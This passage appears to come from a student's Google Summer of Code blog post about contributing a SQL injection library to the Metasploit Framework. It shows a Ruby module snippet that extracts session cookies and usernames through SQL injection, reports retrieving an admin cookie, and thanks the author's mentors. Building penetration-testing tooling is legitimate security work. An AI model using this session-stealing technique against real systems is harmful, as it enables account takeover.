 ```ruby
alphanumeric_range = ('0'..'z')
cookies = [ ]
session_ids.each_with_index do |id, idx|
  cookie = @sqli.run_sql("select sessionid from sessions where id=#{id}", output_charset: alphanumeric_range)
  cookies << cookie
  if datastore['EnumUsernames']
    username = @sqli.run_sql("select value from sessionsvariables where name='username' and id=#{id}")
  end
  # more code that is irrelevant to this post
end
```

## <span id='707ae1bbecb994d13ec98cb72f2316b7'>Results of the execution</span>

![retrieval of cookies](https://res.cloudinary.com/dik00g2mh/image/upload/v1598711216/gsoc_2020/wlzmh7voeuco9hkoqt7r.png)

(The error, `Login is required ...` just indicates that `x4J...2Ps` is not an admin cookie, it's the cookie of an unprivileged user, but we notice that the other cookie was tested successfully to be an admin cookie).

Not only we reproduced the vulnerability, but we were able to retrieve the actual cookies with minimal effort using the library.

a note about this module: using methods like `enum_table_names`, `enum_table_columns`, `dump_table_fields` might not work because the size of the string embedded in SQL queries is limited (the vulnerable code is written in C, 
and fixed-size buffers are used), and these methods generate long queries to deal with `NULL` values, convert (cast) types, encode and so on, for cases like this, we can always fall back to `run_sql`, which should work in most cases.

# <span id='6f8b794f3246b0c1e1780bb4d4d5dc53'>Conclusion</span>

Working with rapid7 members on the Metasploit Framework was really a great experience for me, I learned a lot of things, would like to thank my mentor, Jeffrey Martin (`Op3n4M3`), as well as other contributors who helped me out,
`h00die`, `zeroSteiner` and `dwelch-r7` to name a few.

I will keep contributing to the project, hopefully getting all of the library merged, and getting some other issues I had noticed in the codebase fixed.

